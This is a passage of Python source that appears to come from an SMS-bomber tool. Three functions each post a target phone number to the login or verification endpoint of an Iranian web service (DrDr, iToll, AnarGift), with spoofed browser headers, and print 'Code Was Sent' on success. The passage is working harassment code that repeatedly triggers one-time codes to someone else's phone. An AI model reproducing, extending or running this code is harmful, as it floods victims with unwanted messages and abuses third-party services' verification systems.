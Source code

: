 def drdr(phone):
    dru = f"https://drdr.ir/api/registerEnrollment/sendDisposableCode"
    drh = {'Connection': 'keep-alive',
    'Accept': 'application/json',
    'Authorization': 'hiToken',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36',
    'Content-Type': 'application/json;charset=UTF-8',
    'Origin': 'https://drdr.ir',
    'Referer': 'https://drdr.ir/',
    'Accept-Language': 'en-US,en;q=0.9',
    'Accept-Encoding': 'gzip, deflate'}
    try:
        drdr = post(timeout=5, url=dru, headers=drh, params={"phoneNumber":phone ,"userType":"PATIENT"}).json()
        if drdr['status'] == 'success':
            print(f'{g}(DrDr) {w}Code Was Sent')
            return True
    except:
        pass

def itool(phone):
    itJ = {'mobile': phone}
    itU = 'https://app.itoll.ir/api/v1/auth/login'
    itH = {
        'accept': 'application/json, text/plain, */*',
        'accept-encoding': 'gzip, deflate, br',
        'accept-language': 'fa',
        'content-type': 'application/json;charset=UTF-8',
        'origin': 'https://itoll.ir',
        'referer': 'https://itoll.ir/',
        'user-agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2 Safari/537.36'
}
    try:
        ok = post(timeout=5, url=itU, headers=itH, json=itJ).json()
        if ok['success'] == True:
            print(f'{g}(Itool) {w}Code Was Sent')
            return True
    except:
        pass

def anar(phone):
    anrJ = {'user': phone, 'app_id': 99}
    anrU = 'https://api.anargift.com/api/people/auth'
    anrH = {
'accept': 'application/json, text/plain, */*',
'accept-encoding': 'gzip, deflate, br',
'accept-language': 'en-US,en;q=0.9',
'content-length': '34',
'content-type': 'application/json;charset=UTF-8',
'origin': 'https://anargift.com',
'referer': 'https://anargift.com/',
'user-agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36'
    }
    try:
        ok = post(timeout=5, url=anrU, headers=anrH, json=anrJ).json()      
        if ok['status'] == True:
            print(f'{g}(AnarGift) {w}Code Was Sent')
            return True
    except :
        pass
